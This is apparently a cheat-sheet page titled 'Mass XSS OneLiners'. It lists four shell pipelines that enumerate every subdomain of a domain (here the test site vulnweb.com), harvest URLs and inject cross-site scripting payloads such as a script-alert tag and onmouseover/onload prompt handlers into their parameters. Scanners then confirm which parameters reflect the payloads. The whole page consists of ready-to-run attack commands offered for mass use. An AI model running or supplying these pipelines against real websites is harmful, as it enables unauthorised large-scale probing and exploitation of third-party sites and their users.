 # Mass XSS OneLiners
- Dalfox XSS<br>
`subfinder -d vulnweb.com | httpx | katana -ps | gf xss | qsreplace | anew | dalfox pipe --skip-bav`
- AiriXSS Oneline<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | qsreplace '@x.y"><xss onmouSEOver=prompt(1337)>' | airixss -p 'prompt(1337)' | grep -v 'Not'`
- Freq XSS<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | gf xss | qsreplace '"><script>alert(1)</script>' | freq | grep -v 'Not'`
- Crawling XSS
`echo vulnweb.com | assetfinder --subs-only | httpx --silent -t 95 | katana -xhr -jc -fx -kf all --silent | grep '?' | anew | qsreplace '"><html/onLOAD=prompt(7*7)>' | airixss -p 'onLOAD=prompt(7*7)>' | grep -v 'Not'`

